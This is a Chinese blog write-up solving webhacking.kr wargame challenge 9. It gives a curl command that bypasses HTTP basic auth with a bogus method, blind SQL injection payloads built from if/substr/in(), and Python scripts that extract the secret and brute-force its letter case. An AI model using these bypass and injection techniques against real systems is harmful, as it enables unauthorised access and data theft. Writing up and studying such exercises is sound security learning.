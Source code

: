 ```yaml
---
title: webhacking.kr challenge 9
author: rk700
layout: post
tags:
  - webhacking.kr
  - HTTP
  - sql
---
```


这道题花了好久啊才做出来……不愧是这么大分值的题目

首先，直接点击后就是遇到了HTTP basic auth。由于realm是sql injection world，我开始还以为在这里就要有注入……试了各种知道的payload发现没有用，于是在这里卡住了

然后是搜索时偶然发现[这里](http://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/)提到了他的basic auth被`GETS`方法绕过了，而实际上`GETS`并不是什么正确的方法，是因为配置时只检查了`GET`等常用方法，其他的也被解释成`GET`方法了，这点实在是太二了……所以只要我们使用其他方法就可以绕过这里，比如`OPTION`，就连

<pre>$ curl -b 'PHPSESSID=18r88ol7enbiqja7liuq623c43' 'http://webhacking.kr/challenge/web/web-09/index.php' -X WTF</pre>

这样都可以……

然后该页面有参数`no`，这里是有注入；还有有一个表格，提交参数`pw`，这里应该是得到的答案。具体地，`no`取1或2时，页面返回有Apple或Banana；当`no=3`时，会显示提示说长度是11，数据库的column是`id`和`no`。

对`no`参数尝试注入，发现一旦有危险字符就会返回denied，一个个试下来，很多都被过滤了。最后找到可用的payload是用if加substr，由于大于小于符号什么的也过滤了，所以用的是`in()`。基本格式如下：

<pre>select * from t1 where id=if(substr(name,1,1)in('D'),1,2);</pre>

在上面的语句中，`id=1`会被选中如果其对应的`name`首字符是`D`或者`d`，`id=2`会被选中如果其对应的`name`首字符不是`D`且不是`d`。这里大小写不区分，导致了后面的暴力破……对于这道题，我们需要每次只选中一行，而`no=0`是没有对应的行的，于是用

<pre>no=if(substr(id,1,1)in(0x41),1,0)</pre>

这样来确定`no=1`对应的`id`，得到是`APPLE`。用

<pre>no=if(substr(id,1,1)in(0x41),2,0)</pre>

这样来确定`no=2`对应的`id`，得到是`BANANA`。 最后用

<pre>no=if(substr(id,1,1)in(0x41),3,0)</pre>

这样来确定`no=3`对应的`id`，得到是`ALSRKSWHAQL`。用的代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-09/index.php?no=if(substr(id,%d,1)in(%s),3,0)" % (statement[0], hex(statement[1]))

def checkResponse(response):
    return response.find("Secret") != -1

def doAssert(conn, statement):
    conn.request("WTF", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,12):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}

如上所说，由于没有区分大小写，这里并不能确定。由于总共是`2^11=2048`种情况，我想着并不多可以暴力一次，谁知道跑了好久好久……代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib
import itertools

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)

    for pw in map(''.join, itertools.product(*((c.upper(), c.lower()) for c in "ALSRKSWHAQL"))):
        conn.request("WTF", "/challenge/web/web-09/index.php?pw=%s" % pw, "", header)
        response = conn.getresponse()
        content = response.read()
        print content
{% endhighlight %}

结果跑到最后的一种情况是正确的，对应的是全小写……早知道先试下就好了
